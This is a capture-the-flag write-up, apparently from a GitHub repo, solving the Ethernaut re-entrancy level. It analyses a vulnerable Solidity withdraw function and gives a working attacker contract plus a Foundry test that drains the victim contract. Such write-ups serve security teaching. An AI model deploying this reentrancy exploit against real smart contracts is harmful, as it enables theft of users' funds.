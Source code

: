 # Level 10 - Re-entrancy

## Objectives

- The goal of this level is for you to steal all the funds from the contract.

## Contract Overview

The `Reentrance` contract works like a bank. Contract users can send funds to any account that they specify. The owner of such an account can later withdraw the money. It is also possible to check the current balance of any account.

## Finding the weak spots

The weak spot is the `withdraw` function. It looks like:

```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

This function is taking some Ether in `_amount` and making sure that the balance of the user who initiated the function call should be greater than or equal to the amount.

It proceeds to send the requested `_amount` via a low-level `call` function that will use all the remaining gas to execute the operation. It is then making an external call to `msg.sender's` address. This is a big RED FLAG as this address can be controlled by our user since we are the `msg.sender`.

After the external call, it updates the balance of the `msg.sender` decreasing the amount. Since this is happening after the external call, we can exploit this behavior so that the function never reaches this line to update user balance.

We can see two big problems here!

- The contract uses the Solidity version < 8.0 and this mean that every math operation could suffer from underflow/overflow attacks. The contract also use `SafeMath` for `uint256` and for example in the `donate` function this problem does not exist. But in `withdraw` they do not use it when the function updates the final balance of the sender. The reason to not use it would be that the contract know for sure (under normal circumstances) that it cannot underflow because of the `if (balances[msg.sender] >= _amount)` check.
- The second problem is that `Reentrance` contract does not follow the [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern).

In practice, what we should always do to follow Checks-Effects-Interactions Pattern (if applicable):

1. Perform all the checks needed
2. Perform all the state updates needed
3. Emit any event needed
4. Only after all these things perform the needed external call

By not following the Checks-Effects-Interactions Pattern and not using any Reentrancy Guard (like OpenZeppelin: ReentrancyGuard) this function is prone to a Reentrancy Attack.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will call the `donate()` and `withdraw()` functions of victim contract. Because `balances` are updated after making the `call`, attacker can re-enter the `withdraw` function, pass the `balances` check again and drain the contract balance to zero by repeating the process.

## Plan of the attack

1. Attacker creates the malicious contract that will call the `donate()` function with some initial Ether to deposit some balance into victim contract's account and than will call the `withdraw()` function using the same amount as donated balance to validate the if condition.
2. Attakcer will create a `receive()` function in the malicious contract so when the `withdraw()` function tries to send the attacker the Ether, he can reenter back into the function by calling it again.
3. Once this is done, the `withdraw()` function will try to execute the external call `msg.sender.call{value:_amount}("");` and send the `_amount` value to attacker contract's address.
4. Attacker contract will see the incoming transaction and the `receive()` function will handle it. `receive()` function will make a call to the vulnerable contract's `withdraw()` function. This will keep on repeating until the victim contract is drained.

## Malicious contract (ReentranceAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceAttack {
    Reentrance public reentranceContract;

    constructor(address _reentranceContract) public {
        reentranceContract = Reentrance(payable(_reentranceContract));
    }

    function attack() public payable {
        require(msg.value > 0, "donate something!");
        reentranceContract.donate{value: msg.value}(address(this));
        reentranceContract.withdraw(msg.value);
    }

    receive() external payable {
        reentranceContract.withdraw(msg.value);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/10-Reentrance.t.sol))

```solidity
        ReentranceAttack reentranceAttack = new ReentranceAttack(
            address(reentranceContract)
        );
        emit log_named_uint(
            "Attackers's ether balance before attack",
            address(reentranceAttack).balance
        );

        emit log_named_uint(
            "Attacker contract balance in the victim contract before donation and withdrawal",
            reentranceContract.balanceOf(address(reentranceAttack))
        );

        emit log_string("Starting the exploit...");

        emit log_string("Starting the attack...");
        reentranceAttack.attack{value: 1 ether}();

        emit log_named_uint(
            "Attacker contract balance in the victim contract after donation and withdrawal",
            reentranceContract.balanceOf(address(reentranceAttack))
        );

        emit log_named_uint(
            "Victim contract ether balance after withdrawal",
            address(reentranceContract).balance
        );

        emit log_named_uint(
            "Attackers's ether balance after attack",
            address(reentranceAttack).balance
        );

        // Test assertion
        assertEq(address(reentranceContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Reentrance.png)

## Recommendations

- External calls should be used with caution and proper error handling should be implemented on all external calls.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-9-solution-king)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
